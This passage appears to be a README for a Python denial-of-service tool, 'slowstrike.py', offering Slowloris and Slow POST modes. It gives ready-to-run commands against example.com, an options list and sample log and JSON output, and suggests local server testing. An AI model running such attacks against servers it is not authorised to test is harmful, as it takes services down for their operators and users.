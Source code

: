 Simulate a Slow POST attack on HTTPS:
```bash
python3 slowstrike.py -t example.com -p 443 -m slowpost -c 50 -d 30
```

Run in quiet mode:
```bash
python3 slowstrike.py -t example.com -m slowloris -c 100 -d 60 -q
```

### Options
- `-t, --target`: Target hostname or IP address (required).
- `-p, --port`: Target port (default: 80).
- `-m, --mode`: Attack mode: slowloris or slowpost (default: slowloris).
- `-c, --connections`: Number of concurrent connections (default: 100).
- `-i, --interval`: Interval between sends in seconds (default: 10).
- `-d, --duration`: Attack duration in seconds (default: 60).
- `-T, --threads`: Number of threads (default: 5).
- `-q, --quiet`: Log to file only.

### Features

#### Slowloris Attack
- **Purpose**: Simulate slow HTTP header attacks to exhaust server resources.
- **Usage**:
  ```bash
  python3 slowstrike.py -t example.com -m slowloris -c 100 -d 60
  ```
- **Output**:
  ```
  2025-05-15 16:00:00 - INFO - Starting SlowStrike against example.com:80 in slowloris mode
  2025-05-15 16:01:00 - INFO - Slowloris connection to example.com:80 completed
  ```
- **Result File** (`slowstrike-output/strike_20250515_160000.txt`):
  ```
  === SlowStrike Results ===
  Timestamp: 2025-05-15 16:01:00
  [2025-05-15 16:01:00] Slowloris connection to example.com:80 completed, Target=example.com:80, Mode=slowloris, Connections=100
  ```
- **JSON File** (`slowstrike-output/strike_20250515_160000.json`):
  ```json
  {
    "target": "example.com",
    "port": 80,
    "mode": "slowloris",
    "connections": 100,
    "duration": 60,
    "actions": [
      {
        "target": "example.com",
        "port": 80,
        "mode": "slowloris",
        "connections": 100,
        "status": "Slowloris connection to example.com:80 completed",
        "timestamp": "2025-05-15 16:01:00"
      }
    ],
    "timestamp": "2025-05-15 16:01:00"
  }
  ```
- **Tips**: Use **NetSentry** to monitor server traffic; test with a local Apache/Nginx server.
